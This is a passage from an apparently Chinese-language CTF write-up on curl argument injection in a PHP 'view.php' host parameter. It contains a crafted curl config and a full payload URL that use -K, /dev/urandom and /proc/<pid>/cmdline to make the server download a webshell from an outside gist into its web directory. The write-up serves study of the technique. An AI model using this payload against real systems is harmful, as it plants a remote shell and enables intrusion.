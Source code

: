 

可以看到，对于这种单字母的参数，我们在两边加不加引号都不影响其执行。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/160320938533c62555fbe1e39e805f0431760b5905-1024x847.png)

正因为这个 host_addr 所在的位置前面没有字符，后面可以利用 %00 来截断，我们可以完全控制这里的数据，我们可以插入单字母参数，使其发挥作用。

原本应该被作为请求地址处理的数据被作为参数项处理，造成了逃逸。



3.那么我们可以来看看该利用哪个参数进行利用。

看到 -K 参数，可以读入一个配置文件。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603209608ea6095163f696f91f5b7b5dbc554d0cf-1024x107.png)

到官网查找到相关文档。

https://ec.haxx.se/cmdline/cmdline-configfile

进一步查找，发现更具体的用法。

https://curl.haxx.se/docs/manpage.html

可以利用 url 访问一个地址，再用 output 输出到相应的文件里。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603209832fb3e7d70621df9f63bc84c77728fdd57-1024x439.png)



这样我们就可以不用想办法逃逸参数也可以写入 webshell 到网站目录下然后 getshell 了。

构造出来的配置文件如下：

```
url="https://gist.githubusercontent.com/glzjin/2c81bd6f1ef880f593ed18157400bbcb/raw/0f039d674ddf0fe026e87bf3faa56ca9a187b10f/n1ctf_docker_manager"
output="img/glzjin.php"
```



4.那么我们如何把这个配置文件给写到服务器上呢？利用 cmdline，每一次 php 执行 curl 命令的时候都会有一个 pid，这个 pid 在 /proc 下会有相关文件，在 /proc/<pid>/cmdline 里会有运行时的命令，我们利用带进去的参数产生的 cmdline 文件作为配置文件，是不是就相当于上传上去了呢？

但这样做进程一运行就会很快结束，无法驻留供我们长时间使用，我们有其他的办法可以让这个进程一直存在从而让 cmdline 文件一直存在呢？我们利用 curl 的 -K 参数去读取 /dev/urandom 时可以造成 curl 一直运行，因为其一直在读取配置文件，读不到头，进程则一直存在。这里除了前面的参数还有后面许许多多参数比如 cacert 等可控我们控制，我们利用这些来写入内容即可。

![img](https://www.zhaoj.in/wp-content/uploads/2020/10/1603210922ab7ac016ddf9f0d8e5aa1f78b5c6941b-1024x289.png)





#### payload:

```
http://81893acd-e5b6-4fa8-9b92-90ef49877eac.node3.buuoj.cn/view.php?host=-K/dev/urandom%00&cacert=111%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0aurl=”https://gist.githubusercontent.com/glzjin/2c81bd6f1ef880f593ed18157400bbcb/raw/0f039d674ddf0fe026e87bf3faa56ca9a187b10f/n1ctf_docker_manager”%0aoutput=”img/glzjin.php”%0a%0a%0a%0a%0a%0a%0a
```
